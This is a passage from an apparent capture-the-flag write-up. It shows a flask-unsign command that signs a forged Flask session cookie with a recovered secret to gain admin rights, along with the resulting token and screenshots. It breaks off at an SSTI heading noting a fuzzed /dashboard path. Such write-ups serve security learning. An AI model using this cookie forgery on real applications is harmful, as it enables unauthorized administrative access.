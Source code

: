 - sign a new modified cookie
    
    ```bash
    ┌──(juba㉿legion-5-kali-vm)-[~]
    └─$ flask-unsign --sign --secret "amorlove" --cookie "{'is_admin': True, 'user_id': '1', 'username': 'admin'}"                                                                                             
    .eJyrVsosjk9Myc3MU7IqKSpN1VEqLU4tis9MUbJSMlSC8PISc1OBXIiqWgC2jxDc.ZNEv2A.7Ka4PghgjAOmybhsH0KedhmuqtY
    ```
    

![Untitled](/assets/images/ASCWG-Fathers-Light/Untitled%201.png)

- after editing the cookie, we became an Admin user

![Untitled](/assets/images/ASCWG-Fathers-Light/Untitled%202.png)

# SSTI

- after fuzzing, we found `/dashboard`
    
